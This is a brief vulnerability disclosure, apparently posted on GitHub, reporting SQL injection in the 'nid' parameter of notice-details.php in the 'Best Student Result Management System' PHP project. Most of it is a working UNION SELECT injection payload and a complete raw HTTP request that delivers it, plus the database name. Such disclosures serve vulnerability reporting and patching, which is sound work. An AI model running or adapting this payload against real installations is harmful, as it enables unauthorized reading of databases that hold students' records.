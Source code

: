# Best Student Result Management System by mayuri_k has SQL injection
BUG_Author：yimian

vendors: [https://www.sourcecodester.com/php/15653/best-student-result-management-system-project-source-code-php-and-mysql-free-download](https://www.sourcecodester.com/php/15653/best-student-result-management-system-project-source-code-php-and-mysql-free-download)

Vulnerability File: /upresult/upresult/notice-details.php?nid=

Vulnerability location: /upresult/upresult/notice-details.php?nid=, nid

dbname = upresult

[+] Payload: nid=2' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x61626364,0x31323334,0x71727374)-- - // Leak place ---> nid

```
GET /upresult/upresult/notice-details.php?nid=2%27%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,CONCAT(0x61626364,0x31323334,0x71727374)--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=3thbvl3jh0h823b43vpautdf10
Connection: close
```





